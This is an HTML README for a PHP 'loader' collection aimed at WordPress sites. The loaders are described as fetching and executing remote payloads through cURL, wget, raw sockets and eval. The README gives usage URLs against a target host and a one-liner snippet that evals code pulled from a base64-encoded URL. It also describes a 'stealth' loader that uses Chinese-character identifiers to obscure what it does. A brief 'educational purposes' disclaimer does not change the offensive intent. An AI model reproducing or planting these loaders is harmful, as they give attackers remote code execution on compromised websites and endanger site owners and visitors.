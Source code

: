 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
</head>
<body>

  <h1>🌀 WP-Loader Collection — Universal PHP Loaders</h1>
  <p><strong>🔥 Universal PHP loader collection</strong> created by 
    <a href="https://github.com/6ickzone" target="_blank">0x6ick</a>.  
    This repository contains different types of loaders (multi-mode, one-liner, stealth) designed to fetch and execute remote payloads.</p>

  <p><strong>⚠️ Disclaimer:</strong> This tool is provided for educational and research purposes only.  
  Any misuse or illegal activity is not the responsibility of the author.</p>

  <hr>

  <div class="section">
    <h2>📂 Repository Structure</h2>
    <pre><code>/loader/wp-loader.php    # Main multi-mode loader panel
/loader/b64loader.php           # One-liner base64 loader
/loader/loadman.php             # Stealth loader (cURL + file_get_contents) with Mandarin variables
/docs/                   # Optional per-mode documentation
</code></pre>
  </div>

  <div class="section">
    <h2>✨ Available Loaders</h2>
    
    1. wp-loader.php
Multi-mode loader panel with the following modes:
- curl → Loader using cURL
- curlman → Refactored curl loader
- tmp → Temporary file-based loader
- cache → Loader with cache mechanism
- curlv2 → Alternative curl loader
- wget → wget/curl + include method
- socket → Raw socket GET loader
- telegram → Author contact info

Usage:
http://target.com/wp-loader.php?mode=curl


     2. b64loader.php
One-liner base64 loader
- Decodes a URL from base64 → fetches → executes via eval
- Extremely short and stealthy

Example snippet:
<?= @eval("?>".file_get_contents(base64_decode("..."))); ?>


     3. loadman.php
Stealth loader with Mandarin style
- Function and variable names in Chinese characters (汉字)
- Flow: cURL → fallback to file_get_contents → eval
- Error output: "加载失败 (Failed to load)"

Usage:
http://target.com/loadman.php

  </div>

  <hr>

  <div class="section">
    <h2>📜 License</h2>
    <p><a href="http://www.wtfpl.net" target="_blank">WTFPL v2</a></p>
    <pre><code>DO WHAT THE FUCK YOU WANT TO PUBLIC LICENSE
Version 2, December 2004</code></pre>
  </div>

  <div class="section">
    <h2>👤 Author</h2>
    <ul>
      <li><strong>0x6ick - 6ickzone</strong></li>
      <li>Telegram: <a href="https://t.me/Yungx6ick" target="_blank">@Yungx6ick</a></li>
    </ul>
  </div>

</body>
</html>
